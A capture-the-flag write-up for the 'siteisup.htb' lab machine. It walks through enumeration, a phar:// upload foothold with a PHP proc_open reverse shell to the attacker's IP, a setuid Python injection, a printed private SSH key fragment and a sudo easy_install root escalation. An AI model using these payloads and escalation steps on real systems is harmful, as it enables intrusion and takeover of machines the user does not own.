 #### Enumeration

I quick nmap scan shows that ports `22` and `80` are open.

After navigating to the ip address, I see the domain is `siteisup.htb`, which I add to the hosts file.

```
echo "10.10.11.177 siteisup.htb" | sudo tee -a /etc/hosts
```

I do a subdomain and vhost enumeration, eventually finding a `dev.siteisup.htb` subdomain, that is forbidden.

After much enumeration with `gobuster` and `ffuf`, the successful command is the one below, it edits out files with a size of 1131, as every domain ran via brute search returned OK-200,

```
ffuf -u http://siteisup.htb -H "Host: FUZZ.siteisup.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 1131

dev                     [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 4221ms]
```

I add the subdomain to the host file:

```
echo "10.10.11.177 dev.siteisup.htb" | sudo tee -a /etc/hosts
```

I do a brute force on directories against `siteisup.htb` and find the `dev` directory:

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://siteisup.htb

/dev                  (Status: 301) [Size: 310] [--> http://siteisup.htb/dev/]
```

Further enumeration on the dev directory turns up a `.git` folder:

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://siteisup.htb/dev

/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.git/HEAD            (Status: 200) [Size: 21]
/.htpasswd            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 0]
```

I install `git-dumper` to grab the information on the app's web-development:

```
$ pip install git-dumper

$ git-dumper http://siteisup.htb/dev/.git dev
[-] Testing http://siteisup.htb/dev/.git/HEAD [200]
[-] Testing http://siteisup.htb/dev/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://siteisup.htb/dev/.git/ [200]
[-] Fetching http://siteisup.htb/dev/.gitignore [404]
[-] http://siteisup.htb/dev/.gitignore responded with status code 404
[-] Fetching http://siteisup.htb/dev/.git
....
```

After git dumps, I see the file `.htaccess` with the output:

```
$ cat .htaccess
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

In Burp Suite, I visit the subdomain `dev.siteisup.htb` and catch it with FoxyProxy. In BurpSuite I go to Proxy->Proxy Settings->Match and Replace Rules->Add match/replace rule, Type: Request Header, Replace: Special-Dev: only4dev

#### Foothold

When on the page `dev.issiteup.htb`, instead of a user input form for the ip address, there is a file upload form. 

I create a file `info.php` with the following information:

```
$ echo "<?php phpinfo(); ?>" > info.php
$ zip info.zip info.php
$ mv info.zip info.txt
```

I upload the `info.txt` then run the payload by running `http://dev.siteisup.htb/? page=phar://uploads/f4ffea0fb8f7269a2cca12cd1b266e58/info.txt/info` in the browser.

I then run the following program by cloning it in github: https://github.com/teambi0s/dfunc-bypasser, which loops through an array of dangerous functions that could lead to a reverse shell. 

I add the following line to line 38 of the script, to make sure the header is added:

```
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text
```

Then I execute the script: 
```
python dfunc-bypasser.py --url 'http://dev.siteisup.htb/? page=phar://uploads/6723be7f59bf9a81d941ecfc3c1bb717/info.txt/info'
...
proc_open
...
```
So it seems proc_open could work, as the function is not disabled by the target. 

I create a php file called `reverse1.php`

```
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

Then running the following commands:

```
$ zip reverse1.zip reverse1.php
$ mv reverse1.zip reverse1.txt
```

And run a netcat listener on my local `nc -lvnp`

I run the following in my web browser:

```
http://dev.siteisup.htb/?page=phar://uploads/5e8b610bccb0e5f6ee2171aabab33be5/reverse1.txt/reverse1
```

After executing, I get access to the shell on my netcat listener:

```
$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.114.97] 55440
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ pwd
pwd
/var/www/dev
```

After some enumeration, in `home/developer/dev` I see two files in the `/dev` directory, `siteisup` has `setuid` permissions set and will run as the owner of the file. I run the executable and try injecting a payload.
From there I read the user's private ssh key:

```
./siteisup
__import__('os').system('/bin/bash')
id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
 cat /home/developer/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
```

I use the `ssh` key to login to developer user:

```
developer@updown:/home/developer/dev$ chmod 600 id_rsa
chmod 600 id_rsa
chmod: cannot access 'id_rsa': No such file or directory
developer@updown:/home/developer/dev$ chmod 600 /home/developer/.ssh/id_rsa
chmod 600 /home/developer/.ssh/id_rsa
developer@updown:/home/developer/dev$ ssh -i id_rsa developer@siteisup.htb
ssh -i id_rsa developer@siteisup.htb
Warning: Identity file id_rsa not accessible: No such file or directory.
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 29 02:24:56 UTC 2024
...

```

After getting access to the developer user, I run `sudo -l`, to see what I can run as root:

```
developer@updown:~$ sudo -l
sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install

```


The output above shows that the developer user may run easy_install , without a password. GTFOBins is an excellent website where we can search for Linux commands that can be misused in order to gain a shell, read/write to files, etc. Searching for easy_install shows that it can in fact be abused to spawn a shell with elevated privileges.

The PoC shown in GTFOBins is a sequence of bash commands. Firstly, a temporary directory is created, wherein a Python script that spawns a /bin/sh shell is subsequently created. Since easy_install is a (deprecated)

Python module which installs Python libraries, the final part of the PoC consists of 'installing' the script we just created (using sudo ), which will trigger the payload and spawn a shell as root .

```
$ TF=$(mktemp -d)
$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
$ sudo easy_install $TF

# id 
uid=0(root) gid=0(root) groups=0(root)
```

The flag can be found in `/root/root.txt`